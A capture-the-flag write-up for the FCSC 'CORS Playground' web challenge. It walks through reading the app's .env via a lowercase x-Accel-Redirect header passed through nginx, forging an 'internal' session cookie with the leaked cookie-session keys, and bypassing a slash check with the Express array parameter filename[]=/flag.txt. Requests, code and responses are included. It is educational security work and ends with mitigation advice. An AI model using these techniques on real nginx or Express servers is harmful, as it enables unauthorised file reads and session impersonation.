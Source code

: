 ```yaml
---
title: CORS Playground
author: Adrian Junge
description: Perplexed by CORS? Our CORS Playground is your ideal solution. This intuitive and sleek platform lets you effortlessly learn and experiment with CORS policies. Perfect for unraveling the complexities of secure cross-origin requests. Dive in and clarify your CORS concepts!
categories:
    - Web
year: 2024
challengefiles: cors-playground.zip
published: "2024-09-01"
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** **Node.js** server with **nginx** allows setting arbitrary response headers
    **- Key Discoveries:** **Nginx** processes `X-Accel-Redirect` header to gain arbitrary file read in workdir e.g. of `.env`
    **- Check Bypass:** Bypassed X- header restriction using case insensitivity (x-Accel-Redirect)
    **- Cookie Forgery:** Forged cookies with leaked server secrets to impersonate the internal user using session keys
    **- Check Bypass:** Bypassed filename `/` check by sending the filename as an array: `filename[]=/flag.txt`

# 1. Introduction<a id="introduction"></a>
The description might be a bit misleading at the beginning:

```
Perplexed by CORS?
Our CORS Playground is your ideal solution.
This intuitive and sleek platform lets you effortlessly learn and experiment with CORS policies.
Perfect for unraveling the complexities of secure cross-origin requests.
Dive in and clarify your CORS concepts!
```

Although **CORS** is both contained in the title and the description, this challenge is nothing about exploitation of **CORS** misconfigurations.

# 2. Reconnaissance<a id="reconnaissance"></a>
The challenge is about a **node.js** server being deployed together with **nginx**. By starting playing around with the application we are able to add any kinds of CORS-headers to the server response via the `/cors` endpoint appending the headers as url parameters:

![overview](ctf/writeups/fcsc/corsplayground/corsplayground.png "overview")

After having a look into the source code, this is not only about CORS-headers. You can set *any* kind of header for your request and the server response:

```javascript
app.all("/cors", (req, res) => {
    for (const [key, value] of Object.entries(req.query)) {
        if (key.includes("X-")) delete req.query[key]
    }
    res.set(req.query);
    if (req.session.user === "internal" && !req.query.filename?.includes("/")) {
        res.sendfile(req.query.filename || "app.js");
    } else {
        res.send("Hello World!");
    }
});
```

Moreover there are some constraints e.g. we are not allowed to use custom headers starting with `X-`. Having set an appropriate cookie with `session.user === "internal"` allows us to retrieve any file we wish - sounds highly interesting. Unfortunately we are also not allowed to have a `/` in our path. So it seems like we are not allowed to use absolute paths and are restricted to the directory `/usr/app` the application is running in. Having a look in the docker setup we see the `flag.txt` got some interesting permissions set:

```dockerfile
FROM nginx:alpine3.18-slim
WORKDIR /usr/app
COPY --chown=1337:1337 --chmod=400 ./src/nginx/nginx.conf /etc/nginx/nginx.conf
COPY --chown=1337:1337 --chmod=500 ./src/app/ /usr/app/
COPY --chown=1337:1337 --chmod=500 ./src/start.sh /start.sh
COPY --chown=root:root --chmod=444 ./src/flag.txt /flag.txt
RUN apk add --update --no-cache            \
    nodejs~=18                             \
    npm~=9.6                            && \
    npm install
USER 1337:1337
CMD ["/bin/sh", "/start.sh"]
```

Anyone is allowed to read the `/flag.txt` because of the `444` rights. But how can we even get a cookie? The server secrets for generating cookies via the `cookie-session` seem to be random, so to forge any cookies we would have to forge a valid signature and thus break the underlying cryptography.

# 3. Vulnerability Description<a id="vulnerability description"></a>
Setting arbitrary headers in the server responses already seems very phishy. At first this seems kina useless. The headers are not processed any further but only appended to the server response. But we still got **nginx** sitting between client and server, so maybe some headers are still processed by **nginx**? There is an interesting header called `X-Accel-Redirect`. Usually this header is used to indicate that a response should be redirected. But in our case we can abuse this header to serve arbitrary files via **nginx**.

# 4. Exploitation<a id="exploitation"></a>
The working directory of **nginx** is `/usr/app`. But before using the `X-Accel-Redirect` header we need to bypass the `key.includes("X-")` check preventing us from using custom headers. Luckily nginx is not case sensitive. Unfortunately **nginx** won't serve us any files that are not contained in `/use/app/*`. So we can't simply request the `../../flag.txt` via e.g. a path traversal. By requesting `GET /cors?x-Accel-Redirect=.env` we get access to the server secrets:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.1
Date: Mon, 03 Feb 2025 21:48:30 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 150
Last-Modified: Mon, 08 Apr 2024 13:06:56 GMT
Connection: keep-alive
ETag: "6613ebf0-96"
Accept-Ranges: bytes

PORT=3000
KEY1=244f6308a26ad41dd8ebacf617282a7f3dc1cb6fec5fa7a03f1a907857295620
KEY2=c3f8b13c86454198e624813a8d480dd2a43ed5154e5b43f33eedfe962831bbf2
```

Now that we have the server secrets we can start forging cookies. For this I used a small **node.js** server generating the cookies for me:

```javascript
const express = require("express");
const cookieSession = require("cookie-session");
const app  = express();

const KEY1="244f6308a26ad41dd8ebacf617282a7f3dc1cb6fec5fa7a03f1a907857295620"
const KEY2="c3f8b13c86454198e624813a8d480dd2a43ed5154e5b43f33eedfe962831bbf2"

app.use(cookieSession({
    name: "session",
    keys: [KEY1, KEY2]
}));

app.get('/set-cookie', (req, res) => {
    req.session.user = 'internal';
    res.send('Cookie set and signed');
});

app.listen(3000, () => {
    console.log('Server running @ http://localhost:3000');
});
```

So by requesting `/set-cookie` we get:

```http
HTTP/1.1 304 Not Modified
X-Powered-By: Express
Set-Cookie: session=eyJ1c2VyIjoiaW50ZXJuYWwifQ==; path=/; httponly
Set-Cookie: session.sig=cQxHOJTjYH-ApCawTRwrQoXd9HA; path=/; httponly
ETag: W/"1b-eYZazkp0W5H4AV0mNeEdq7v8u6k"
Date: Mon, 03 Feb 2025 21:50:33 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

So we got our new cookie header `Cookie: session=eyJ1c2VyIjoiaW50ZXJuYWwifQ==; session.sig=cQxHOJTjYH-ApCawTRwrQoXd9HA` ready to exploit the application. Now we are able to request (almost) any files we want. For example `package.json`. The last obstacle is about bypassing the `includes("/")` check. In these kind of situations it is always worth it thinking about which assumptions the developer made when implementing such kind of checks. In this case the assumption is definitely that the `filename` url parameter is parsed as a string. What if we somehow manage to make this parameter something else than a string? Then the `includes` function would have a completely different meaning. Maybe you have already seen something like `GET /submit?selectedOptions[]=Option1&selectedOptions[]=Option3`. This is used when you are dealing with some **multi select fields**. **Express** will handle these kind of url parameters as arrays. Thus `includes` will have a different meaning than intended, leading to a bypass for this check. So by requesting `GET /cors?filename[]=/flag.txt` we get our well beloved flag:

```http
HTTP/1.1 200 OK
Server: nginx/1.26.1
Date: Mon, 03 Feb 2025 21:52:53 GMT
Content-Type: text/plain; charset=UTF-8
Content-Length: 71
Connection: keep-alive
X-Powered-By: Express
filename: /flag.txt
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Mon, 08 Apr 2024 13:06:56 GMT
ETag: W/"47-18ebdd1a180"

FCSC{692ee58458f81decea191104293b2cd00e7d96f287c0f693f9737fbb2bcf5f46}
```

So interesting enough the `res.sendfile` in the server code also accepts arrays.

# 5. Mitigation<a id="mitigation"></a>
The vulnerability is inherent to the design. The client should never be able to set arbitray response headers for the server. Moreover the checks trying to prevent exploitation are too lazy. In general using `includes` in security check is almost never a good idea because the match is too broad leading to bypasses.

# 6. Flag<a id="flag"></a>
FCSC{692ee58458f81decea191104293b2cd00e7d96f287c0f693f9737fbb2bcf5f46}

